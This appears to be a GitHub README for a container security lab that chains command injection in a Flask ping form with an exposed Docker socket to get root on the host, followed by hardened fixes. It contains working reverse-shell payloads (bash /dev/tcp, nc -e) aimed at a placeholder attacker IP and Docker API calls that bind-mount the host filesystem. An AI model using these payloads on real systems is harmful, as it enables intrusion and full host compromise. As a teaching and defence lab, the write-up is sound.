

# Container Escape Lab — Docker Socket Escape

A hands-on security lab demonstrating how two common misconfigurations,
chained together, lead to complete host compromise from a web application.


---

## What This Lab Demonstrates

| Vulnerability | Location | Impact |
|---|---|---|
| OS Command Injection | `vulnerable/app/app.py` | Remote code execution inside container |
| Docker socket exposed | `vulnerable/docker-compose.yml` | Full host Docker Engine control |
| **Chained result** | — | **Root shell on Alpine host** |

---

## Lab Architecture

```
MacBook (UTM)
├── Kali Linux VM          → Attacker machine
│   ├── Browser / Burp     → Exploits the web app
│   ├── nc -lvnp 4444      → Catches container shell
│   └── nc -lvnp 5555      → Catches Alpine host shell
│
└── Alpine Linux VM        → Victim host
    └── Docker Engine
        ├── Vulnerable container   → Flask app, port 8080
        │   ├── Command injection in ping endpoint
        │   └── /var/run/docker.sock mounted (misconfiguration)
        └── Escape container       → spawned via docker.sock
            └── Alpine / mounted at /mnt → chroot → host access
```

## Prerequisites

- Two VMs on the same network (Alpine + Kali, or any Linux + Kali)
- Docker and docker-compose installed on the victim host
- Netcat on the attacker machine

---

## Project Structure

```
container-escape-lab/
├── vulnerable/
│   ├── docker-compose.yml     # Deliberately misconfigured
│   ├── Dockerfile
│   └── app/
│       ├── app.py             # Vulnerable Flask app
│       └── templates/
│           └── index.html
└── hardened/
    ├── docker-compose.yml     # Fixed — no socket mount
    ├── Dockerfile             # Non-root user
    └── app/
        ├── app.py             # Fixed — shell=False, input validation
        └── templates/
            └── index.html
```

---

## Setup

### On the victim host (Alpine)

```sh
# Clone the repo
git clone https://github.com/<your-username>/container-escape-lab
cd container-escape-lab

# Start the vulnerable app
cd vulnerable
docker-compose up --build -d

# Verify — should show container listening on port 8080
docker ps
```

The vulnerable app is now reachable at `http://<victim-ip>:8080`

---

## Attack Walkthrough

### Phase 1 — Command Injection → Container Shell

**Confirm the vulnerability:**

In the ping form at `http://<victim-ip>:8080`, enter:
8.8.8.8 ; id
Expected output includes `uid=0(root)` — confirming command injection works.

**Set up listener on Kali:**
```sh
nc -lvnp 4444
```

**Send reverse shell payload via the ping form:**

8.8.8.8 ; bash -c 'bash -i >& /dev/tcp/<kali-ip>/4444 0>&1'

connect to [kali-ip] from [victim-ip]

root@00a8943e1b4b:/#

---

### Phase 2 — Enumerate Inside Container

```sh
# Confirm you are in a container
cat /proc/1/cgroup

# Check for docker socket mount
cat /proc/mounts | grep docker
# Output includes: tmpfs /run/docker.sock ...

# Verify socket is live and talking to host Docker Engine
curl -s --unix-socket /run/docker.sock http://localhost/version

# List images available on host
curl -s --unix-socket /run/docker.sock http://localhost/images/json
```

---

### Phase 3 — Docker Socket Escape → Host Shell

**Set up second listener on Kali for the host shell:**
```sh
nc -lvnp 5555
```

**From inside the container — create escape container:**
```sh
curl -s --unix-socket /run/docker.sock \
  -X POST \
  -H "Content-Type: application/json" \
  -d '{"Image":"<image-name>","Cmd":["/bin/sh","-c","chroot /mnt /bin/sh -c '\''nc <kali-ip> 5555 -e /bin/sh'\''"],"HostConfig":{"Binds":["/:/mnt:rw"]}}' \
  http://localhost/containers/create
```

**Start the escape container:**
```sh
curl -s --unix-socket /run/docker.sock \
  -X POST \
  http://localhost/containers/<container-id>/start
```

**Kali port 5555 catches the Alpine host shell:**
```sh
/ # id
uid=0(root) gid=0(root) groups=0(root)
/ # cat /etc/alpine-release
3.24.1
```

Host is fully compromised.

---

## Why This Works

The Docker socket (`/var/run/docker.sock`) is the communication channel
between the Docker CLI and the Docker Engine daemon. Whoever has access
to this file has **full control over Docker Engine** — including the
ability to create new containers.

By mounting the host's socket into the vulnerable container, any process
inside the container can issue Docker API commands as if it were on the host.
The escape works by:

1. Creating a new container with the host's `/` filesystem bind-mounted inside it
2. Starting that container with a command that `chroot`s into the mounted filesystem
3. From inside the chroot, the attacker is operating directly on the host filesystem as root

Docker Engine receives this as a legitimate API request and complies —
it has no way to distinguish requests from inside a container vs the host.

---

## The Mitigations — Hardened Version

Run the hardened version alongside the vulnerable one for comparison:

```sh
cd hardened
docker-compose up --build -d
# Hardened app runs on port 9090
```

Test that injection is blocked:
```sh
curl -X POST http://<victim-ip>:9090/ping -d "target=8.8.8.8 ; id"
# Returns: Invalid input. Only valid IPv4 addresses are accepted.
```

### What Was Fixed

**1. Input validation — `app.py`**
```python
# Vulnerable
command = f"ping -c 2 {target}"
subprocess.check_output(command, shell=True)

# Fixed
IP_PATTERN = re.compile(r'^(25[0-5]|2[0-4]\d|...)(\....){3}$')
if not IP_PATTERN.match(target):
    return error("Invalid input")
subprocess.run(["ping", "-c", "2", target], shell=False)
```

**2. Docker socket removed — `docker-compose.yml`**
```yaml
# Vulnerable
volumes:
  - /var/run/docker.sock:/var/run/docker.sock

# Fixed
# This block does not exist in the hardened version
```

**3. Non-root container user — `Dockerfile`**
```dockerfile
# Vulnerable — runs as root by default

# Fixed
RUN useradd -r -g appgroup appuser
USER appuser
```

**4. Additional hardening — `docker-compose.yml`**
```yaml
read_only: true          # container cannot write to its own filesystem
cap_drop: [ALL]          # drops all Linux capabilities
security_opt:
  - no-new-privileges:true
```

---

## Key Takeaways

> Containers are not a security boundary by themselves.
> They are only as secure as their configuration.

| Assumption | Reality |
|---|---|
| "It's in a container so we're safe" | Misconfigured containers are fully escapable |
| "The socket is just a file" | It is the master key to the Docker host |
| "Our app doesn't need root" | Default Docker runs as root — always set a user |

---

## References

- [Docker security best practices](https://docs.docker.com/engine/security/)
- [OWASP — OS Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [CWE-78 — OS Command Injection](https://cwe.mitre.org/data/definitions/78.html)
- [DockerScan — socket escape technique](https://dejandayoff.com/the-danger-of-exposing-docker.sock/)

---

## Author

**Ashutosh** — Security Engineer  
[GitHub](https://github.com/ashutoshhacks) | [LinkedIn](https://www.linkedin.com/in/ashutosh-shinde-a59a89146/)

> Built as part of an AppSec/container security portfolio.
> All exploitation performed in an isolated lab environment.
